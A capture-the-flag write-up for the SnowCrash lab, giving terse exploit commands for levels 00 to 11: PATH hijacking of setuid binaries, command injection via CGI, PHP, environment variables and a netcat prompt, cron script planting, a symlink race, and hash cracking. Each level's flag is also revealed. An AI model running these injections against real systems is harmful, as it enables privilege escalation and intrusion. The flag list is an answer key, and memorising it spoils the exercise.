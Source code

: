 # snow_crash


# Level 00
```sh
level00@SnowCrash:~$ find / -path /proc -prune -o -user flag00 -print 2> /dev/null
/usr/sbin/john
/rofs/usr/sbin/john
```
```sh
level00@SnowCrash:~$ cat /usr/sbin/john
cdiiddwpgswtgt
```
[The Cipher Identifier](https://www.dcode.fr/cipher-identifier) => ROT Cipher
Brute Force ROT Cipher => nottoohardhere

<details>
	<summary>Flag:</summary>
	x24ti5gi3x0ol2eh4esiuxias
</details>

# Level 01
```sh
find / -path /dev -prune -o -exec grep -Hn "flag01" {} \; 2>/dev/null
/etc/passwd:41:flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
```
Encoded in SHA512(?)
https://www.openwall.com/john/
```sh
wget https://www.openwall.com/john/k/john-1.9.0-jumbo-1.tar.xz
tar -xJf john-1.9.0-jumbo-1.tar.xz
./configure && make -s clean && make -sj4 
echo 42hDRfypTqqnw > /tmp/pass

./john /tmp/pass
Proceeding with wordlist:./password.lst, rules:Wordlist
abcdefg          (?)

```

<details>
	<summary>Flag:</summary>
	f2av5il02puano7naaf6adaaf
</details>

# Level 02

level02.pcap with Wireshark

Right click => Follow => TCP

Password: ft_wandr...NDRel.L0L   (. = backspace)

Final password: ft_waNDReL0L

<details>
	<summary>Flag:</summary>
	kooda2puivaav1idi4f57q8iq
</details>

# Level 03

exec in https://dogbolt.org

```c
int32_t main(int32_t argc, char** argv, char** envp)
{
    gid_t eax = getegid();
    uid_t eax_1 = geteuid();
    setresgid(eax, eax, eax);
    setresuid(eax_1, eax_1, eax_1);
    return system("/usr/bin/env echo Exploit me");
}
```

/usr/bin/env is absolut

```sh
cp /bin/getflag /tmp/echo
PATH=/tmp ./level03
```

<details>
	<summary>Flag:</summary>
	qi0maab88jeaj46qoumi7maus
</details>

# Level 04

level04.pl as CGI

Connect on appach at localhost:4747

```sh
$ curl "localhost:4747?x=\`getflag\`"
```

<details>
	<summary>Flag:</summary>
	ne2searoevaevoem4ov4ar8ap
</details>

# Level 05

On connection: You have new mail.

```sh
$ cat /var/spool/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

echo "echo test; exec /bin/getflag > /tmp/soluc" > /opt/openarenaserver/test.sh
echo /tmp/soluc
```

<details>
	<summary>Flag:</summary>
	viuaaale9huek52boumoomioc
</details>

# Level 06

```sh
$ ls
level06  level06.php

$ echo '[x {${exec(getflag)}}]' > /tmp/test && ./level06 /tmp/test
```

<details>
	<summary>Flag:</summary>
	wiok45aaoguiboiki2tuin6ub
</details>

# Level 07


```c
    asprintf(&v1, "/bin/echo %s ");
```

```sh
$ LOGNAME="; getflag" ./level07 
```

<details>
	<summary>Flag:</summary>
	fiumuikeil55xe9cu4dood66h
</details>ls

# Level 08

```sh
$ ln -s /home/user/level08/token /tmp/testing
$ ./level08 /tmp/testing
$ su flag08
$	quif5eloekouj29ke0vouxean
```

<details>
	<summary>Flag:</summary>
	25749xKZ8L7DkSCwJkT9dyv6f
</details>

# Level 09

```sh
$ scp -P 4243 level09@localhost:/home/user/level09/token .
# exec script to rotate
$ echo "<res>" > /tmp/res
$ ./level09 /tmp/res
```

<details>
	<summary>Flag:</summary>
	s5cAJpM8ev6XHw998pRWG728z
</details>


# Level 10

```sh
$ while true; do ln -sf /home/user/level10/token /tmp/mykey; ln -sf /tmp/test /tmp/mykey; done &
$ for i in {1..1000}; do /home/user/level10/level10 /tmp/mykey 127.0.0.1; done
```
clef flag10: woupa2yuojeeaaed06riuj63c

<details>
	<summary>Flag:</summary>
	feulo4b72j7edeahuete3no7c
</details>

# Level 11

```sh
$ level11@SnowCrash:~$ netcat 127.0.0.1 5151
Password: `getflag > /tmp/key; echo test`
```

<details>
	<summary>Flag:</summary>
	fa6v5ateaw21peobuub8ipe6s
</details>